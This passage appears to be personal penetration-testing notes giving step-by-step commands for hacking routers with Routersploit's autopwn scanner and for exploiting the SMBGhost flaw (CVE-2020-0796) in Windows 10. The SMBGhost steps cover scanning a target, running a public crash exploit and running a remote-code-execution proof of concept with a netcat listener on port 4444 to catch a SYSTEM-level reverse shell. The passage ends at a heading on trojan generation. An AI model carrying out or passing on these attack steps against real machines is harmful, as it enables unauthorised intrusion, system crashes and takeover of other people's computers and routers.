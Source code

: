 	> - meterpreter shell open


## Routersploit

-- hacking routers

	$ clone routersploit and install requiered packages

	$ python3 rsf.py

	$ use scanners/autopwn - will check for all present vulnerabilities

		[-] - not vulnerable
		[*] - cannot be verified
		[+] - is vulnerable

	$ show options

	$ set target 192.168.0.1

	$ run


## SMBGhost Windows10

+ CVE-2020-0796 

--- only SMB is needs to be open on the machine

	$ nmap -sS 172.16.116.134

	$ locate cve-2020-0796 - will display that nessus has the plugin for the vulnerability

	$ clone a scanner https://github.com/ButrintKomoni/cve-2020-0796

	$ python3 cve-2020-0796-scanner.py 172.16.116.134 - will show 'Vulnerable'

	$ clone https://github.com/jiansiting/CVE-2020-0796 - vulnerability that will crash any Windows 10 machine

	$ python3 cve-2020-0796.py 172.16.116.134 - will only work if Firewall is OFF

+ Gaining Shell 

-- remote exploitation POC

	$ git clone https://github.com/ZecOps/CVE-2020-0796-RCE-POC

	* clone de repository on the target machine in order to find the specific Offsets on the machine

	* run the .bat file - to check the Offsets on the specific machine

	$ nc -lvp 4444 - open a listening port on the attacking machine

	$ python3 SMBleedingGhost.py 172.16.116.134 172.16.116.130 4444 - needs be ran on another Windows machine (windll error) - it might crash for a couple of times until it will grand SYS privileges on the Kali machine



# Malware generation (trojans)
